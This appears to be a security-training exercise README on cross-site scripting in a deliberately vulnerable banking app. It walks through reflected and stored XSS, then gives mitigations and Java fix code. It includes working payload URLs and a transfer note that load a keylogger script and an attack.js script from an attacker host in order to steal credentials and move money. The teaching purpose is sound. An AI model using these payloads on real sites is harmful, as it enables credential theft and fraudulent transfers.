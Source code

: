 # Exercise 2 - XXS 

This exercise is to help you understand XSS and its mitigation.

## Setup and Start Applications

1. check out exercise2 
   * choose branch 'exercise2' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
1. start the attacker-app
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
   
## Search for XSS vulnerabilities

XSS is about injecting malicious javascript into the application so that it is executed in the browser within a valis user session.
Please remember the 2 categorizations of XSS vulnerabilities:
#### __reflected OR stored XSS__
1. reflected XSS: the malicious javascript code displayed in the response is included with the corresponding request.
1. stored or persisted XSS: the malicious javascript is read from a storage (typically database), and has to be saved there first.
#### __source OR DOM based XSS__
1. source based: the malicious javascript code is placed into the HTML markup on the server side before sent to the browser/client.
1. DOM based: it is client side javascript code manipulating the page in the browser through its document-object-model (DOM) that places the malicious code into the page.  
#### Hints:
* The v-bank application is a rather traditional multi page web application with little Ajax/Javascript code (there is only a little on the home page).\
Therefore it is mostly susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping
#### Present XSS vulnerabilities:
* *page.tag* template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping

## Exploit to understand
1. Test reflected XSS in login page. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
1. Exploit stored XSS in login page:
   * As Alice send Bob the login link with installs a keylogger by exploiting the vulnerability: 
     http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.0.0.0.0.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger send each keystroke to the attack app, the logged keystrokes you can see at http://attack.0.0.0.0.xip.io:9090/viewlog (do not let the browser autofil the form! ...because there are no keystrokes then)
   * This way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Test stored XSS 
   * go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
   * then go to the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.
1. Exploit stored XSS
   * as Alice (alice / h1alice) you know Bob's account number (1-123456-11) and you will transfer him a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * The attack script is at http://attack.0.0.0.0.xip.io:9090/js/attack.js; use the method *transfer(formname, fromAccount, toAccount, amount, currency, action)* in the note. 
     * For example: `<script src="http://attack.0.0.0.0.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
      * Please transfer 1 CHF to Bob's account with the above note.
   * As Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the history page (by clickin on the account number) 
     * the malicious javascript (XSS) should be loaded from the database and executed
     * if you refresh the page you sould see the transaction
  
## Mitigations:
  * validate input
  * encode text input (i.e. with HTML encoding)
  * sanitize text/HTML input (remove potentially dangerous char sequences) if validation and encoding is not enough or possible (i.e. rich text HTML)
  * escape output (replace control characters with their encoded counterparts that are not interpreted as controls/commands by the HTML parser and can be displayed)
  * use Secure-Content-Policy headers to control which scripts the browser can execute (this needs to be supported by the browser as well)

## Fix
* Escape output in *page.tag* and *history.jsp*:
For JSP please use c:out tag; you may explicitly set the escapeXml to true `<c:out value="${variable}" escapeXml=true />`
* Validate/encode input in *BankController.doTransfer(...)*

```java
public class BankController {

    private static final Collection<String> SUPPORTED_CURRENCIES = Arrays.asList("CHF", "USD", "GBP", "EUR");

    private static final String ACCOUNT_NO_PATTERN = "^\\d{1}?-\\d{6}?-\\d{2}?$";

    ...
    @RequestMapping(value = "/doTransfer", method = RequestMethod.POST)
    public ModelAndView doTransfer(@ModelAttribute Transaction transaction, ModelMap model) {
        //only execute transfer if the transaction data is valid
        if (validateTransaction(transaction, model)) {
            //note is free text property, we convert it to HTML encoding so that it is safe(r) to handle 
            String encodedNote = Encode.forHtmlContent(transaction.getNote());
            if (accountService.transfer(transaction.getFromAccountNo(), transaction.getToAccountNo(), transaction.getAmount(),
                    transaction.getCurrency(), encodedNote)) {
                model.addAttribute("info", "Transaction was completed.");
            } else {
                model.addAttribute("info", "Transaction is pending.");
            }
            return new ModelAndView("redirect:/", model);
        } else {
            return new ModelAndView("transfer", model);
        }
    }
    
    ...

    private boolean validateTransaction(Transaction transaction, ModelMap modelMap) {
        boolean valid = true;
        try {
            validateAccountNo(transaction.getFromAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("fromAccountNoMsg", e.getMessage());
            valid = false;
        }
        try {
            validateAccountNo(transaction.getToAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("toAccountNoMsg", e.getMessage());
            valid = false;
        }
        if (!SUPPORTED_CURRENCIES.contains(transaction.getCurrency())) {
            modelMap.addAttribute("currencyMsg", "Currency not supported!");
            valid = false;
        }
        if (transaction.getAmount() == null) {
            modelMap.addAttribute("amountMsg", "Transaction amount is required");
            valid = false;
        }
        return valid;
    }
}
```
  
You may see the solution in the _exercise2-solution_ branch at at https://github.com/vargadan/v-bank/tree/exercise2-solution

The relevant changes are:
* validation logic in the BankController class in file _BankController.java_
* the generic page template escaping output in file _page.tag_

More on XSS prevention:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md